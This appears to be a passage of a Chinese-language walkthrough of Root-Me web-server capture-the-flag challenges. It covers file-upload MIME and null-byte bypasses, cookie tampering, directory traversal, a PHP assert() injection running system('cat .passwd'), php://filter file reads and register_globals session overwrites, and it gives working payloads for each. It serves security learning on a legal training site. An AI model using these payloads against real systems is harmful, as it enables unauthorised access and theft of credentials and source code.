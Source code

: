 ## 15.File upload - MIME type
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch21/](http://challenge01.root-me.org/web-serveur/ch21/ "http://challenge01.root-me.org/web-serveur/ch21/")
\[+]Statement:同上
\[+]Solution:同上面一样上传文件，并在BP中把数据包的MIME类型修改为image/png,上传成功。

## 16.HTTP cookies
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch7/](http://challenge01.root-me.org/web-serveur/ch7/ "http://challenge01.root-me.org/web-serveur/ch7/")
\[+]Solution:在网页的源码中看见了提示SetCookie(‘ch7,’visiteur’’),结合页面的提示，在请求头中加上Cookie:ch7=admin，获得flag

## 17.Directory traversal
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch15/ch15.php](http://challenge01.root-me.org/web-serveur/ch15/ch15.php "http://challenge01.root-me.org/web-serveur/ch15/ch15.php")
\[+]Solution:目录穿越漏洞，输入payload：?galerie=/，可列出galerie目录下的文件列表，接着输入payload：?galerie=/86hwnX2r/，可以看到password.txt。访问这个文件，得到flag

## 18.File upload - null byte
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch22/](http://challenge01.root-me.org/web-serveur/ch22/ "http://challenge01.root-me.org/web-serveur/ch22/")
\[+]Solution:同样是文件上传漏洞，这里是00截断,需要把filename改成1.php%00.jpg，同时需要修改MIMIE类型。

## 19.PHP assert()
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch47/](http://challenge01.root-me.org/web-serveur/ch47/ "http://challenge01.root-me.org/web-serveur/ch47/")
\[+]Statement:Find and exploit the vulnerability to read the file .passwd.
\[+]Solution:提供错误的page参数，根据回显的assert函数的结果，可以进行拼接执行命令。
\[+]payload:?page=%27,%27..%27)%20===%20false%20and%20system(%27cat%20.passwd%27)%20and%20strpos(%27

## 20.PHP filters
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch12/](http://challenge01.root-me.org/web-serveur/ch12/ "http://challenge01.root-me.org/web-serveur/ch12/")
\[+]Statement:找到administrator用户的密码
\[+]Solution：通过报错发现使用了include函数，此处有文件包含漏洞，使用file://etc/passwd,发现不能包含远程文件。使用php协议进行本地文件包含
\[+]Payload:

-   [http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=login.php](http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=login.php "http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=login.php")
-   [http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=config.php](http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=config.php "http://challenge01.root-me.org/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=config.php")

## 21.PHP register globals
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch17/](http://challenge01.root-me.org/web-serveur/ch17/ "http://challenge01.root-me.org/web-serveur/ch17/") &#x20;
\[+]Statement:似乎开发者经常把备份文件留下… &#x20;
\[+]Solution:根据提示，下载到文件index.php.bak,分析源码。根据测试判断该服务器开启了register\_globals，因此存在变量覆盖漏洞。根据源码的逻辑，有两种解题思路，一种是直接覆盖session\[logged],另一种方法，覆盖password和hidden\_password，接着使用这个Cookie，就可以获得flag &#x20;
\[+]Payload:
-   \_SESSION\[logged]=1
-   password=1\&hidden\_password=1
